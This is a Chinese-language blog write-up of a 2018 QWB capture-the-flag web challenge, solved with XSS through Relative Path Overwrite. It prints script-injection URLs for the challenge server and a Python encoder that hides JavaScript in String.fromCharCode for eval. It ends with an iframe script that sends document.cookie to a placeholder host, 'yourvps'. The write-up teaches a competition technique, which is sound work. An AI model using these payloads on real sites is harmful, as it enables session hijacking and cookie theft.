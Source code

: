 ```yaml
---

title: 强网杯-Share your mind
comments: true
date: 2018-03-26 22:20:06
tags:
  - writeup
  - web
  - xss
categories:
  - 信息安全
  - writeup
keywords:
  - web
  - xss
  - rpo
---
```



这周末看了一下神仙们打架，感触颇深，自己还是太菜了！
继续放一个xss的wp吧。感觉也就这块可以搞明白点。
心疼自己。

### 分析题目

拿到题目后，首先先分析一下题目，发现有注册和登录，尝试登录成功后，发现如下几个页面

<!-- more -->


```js
Overview // 显示当前自己所有发帖
Write article // 发帖
Reports // 向网站管理员反馈（只能填写问题所在的url）
Export // 暂时没有
About // 简单的一个介绍页面
```

分析后感觉该题为XSS，因为存在Reports页面，且发送时含有验证码。

尝试发帖，发现发出后，可以创建一个空白页面来放置你所发的帖子。

![mark](https://img.5am3.com/img/180324/3ihEicgHIL.png)

可以发现，此时对敏感字符进行了一些转义。并且标题处含有h1标签。

尝试空标题发帖时，发现可以没有h1标签。

此时，我们有了一个很好的条件，如果该网站存在csp，即可通过在这里写入恶意代码，来造成xss。

### 尝试攻击

首先尝试在report页面发送XSSpayload，最终发现以下payload可用

```html
http://39.107.33.96:20000?sda<script src=yourjs></script>
```

尝试获取cookie，成功获取到以下信息。

![mark](https://img.5am3.com/img/180324/E74ALKFg5K.png)

即：

- 存在v1ewth3report.php页面
- 当前页面cookie设有httponly。

然后尝试打其他的一些js，拖源码等。发现很迷！真的很迷！！基本都没法用。但是这个却是确确实实打回来了。

在确认脚本无误后，认真反思后，感觉自己方法错误。原因如下：

1. 未有效利用到其他页面。
2. 强网杯的题不可能这么简单。
3. 难道有跨域之类的问题（这个一直很迷，自己感觉应该不会的，毕竟都成功一次了）

### 继续尝试

然后继续尝试，想办法用到文章页。即将代码写入该页。

因为有对特殊字符的转义，所以需要我们进行绕过一下。

此时采用`fromCharCode`来进行绕过。脚本如下

```python
str1='youjscode'
payload='eval(String.fromCharCode('
for i in range(len(str1)):
	payload+=str(ord(str1[i]))
	if(i+1<len(str1)):
		payload+=','

payload+='));'
print(payload)
```

生成payload后，可以直接发帖，然后记录下网址。

再次尝试刚刚的payload。

```html
http://39.107.33.96:20000?sda<script src='http://39.107.33.96:20000/index.php/view/article/1234'></script>
```

此时报错，提示`You can only submit my site's url`，于是感觉有戏，可能是他后台的一些匹配导致的。想办法绕过即可。

尝试了ip的10进制，域名解析等。

冥思苦想之后，突然发现，自己是傻了么？

本来就是为了绕过同源，现在搞得又回去了。本来就是一个网站，直接用相对路径不就可以了么？

于是构造以下payload。

```html
http://39.107.33.96:20000?sda<script src='./index.php/view/article/1234'></script>
```

然后成功绕过，正当自己开心之时，等待回显的到来。等啊等，等啊等。依旧没反应。。。

难道又错了么？

此时的自己处于一种懵逼状态，唉，还是太年轻！太弱了。对前端了解还是太浅。搞不明白啊！

于是默默去洗了个澡。回来继续肛。

### 不服！继续！！



是在没有思路了。只好去默默查资料，看一下xss的各种姿势。

而且感觉这题也不像绕csp的，毕竟用户端连个csp都没有，怎么可能管理端再加上。

搜索后发现RPO攻击貌似符合当前情景。

[【技术分析】RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)

**尝试在文章页后添加字符，发现依旧返回文章页。**此时开心的笑了。

然后跟着文章进行复现，最终构造payload如下，即可成功打过去！

```
http://39.107.33.96:20000/index.php/view/article/20530/..%2F..%2F..%2F..%2Findex.php
```

在这里我简单说一下漏洞原因，具体分析大家可以看一下rpo攻击的介绍。

此漏洞利用服务器与前端浏览器的解析不同，从而造成相对资源的引用错误。

> 服务器端：将../解析为上一级目录，进行退回，造成渲染页面为 http://39.107.33.96:20000/index.php



> 客户端浏览器： 将..%2F..%2F..%2F..%2F..%2Findex.php解析为一个文件，此时没有执行退目录的操作
> 所以导致相对资源引入时。
> 认为http://39.107.33.96:20000/index.php/view/article/20530/为该目录，然后进行引入。
> 然后由于路由解析的原因，造成引入未见为恶意代码。



![mark](https://img.5am3.com/img/180326/0ijg516dE1.png)

此时由于该页面引入了js，即造成了rpo漏洞的实现。

然后就可以开心的通过js玩耍了。

最终尝试通过读源码无果（get方式有限制长度，且payload 有限制长度）。

于是又一次开始打cookie。发现hint如下

![mark](https://img.5am3.com/img/180324/0IH1b15mJ4.png)

`HINT=Try to get the cookie of path "/QWB_fl4g/QWB/"`

到这里就简单了，因为已经提示在这个目录下的cookie里有flag

然后构造js脚本如下，

```js
var ad = document.createElement("iframe");
ad.src = "../../../../../QWB_fl4g/QWB/";
ad.id = "frame";
document.body.appendChild(ad);
	ad.onload = function (){window.location.href="http://yourvps/?a="+document.getElementById("frame").contentWindow.document.cookie;
}

```

然后打过去，即可获取到flag。

![mark](https://img.5am3.com/img/180324/GJk8792aJi.png)



### 参考资料



- [【技术分析】RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)
- [2018安恒杯二月赛-web-应该不是 XSS](http://blog.5am3.com/2018/02/25/anheng-2-xss/)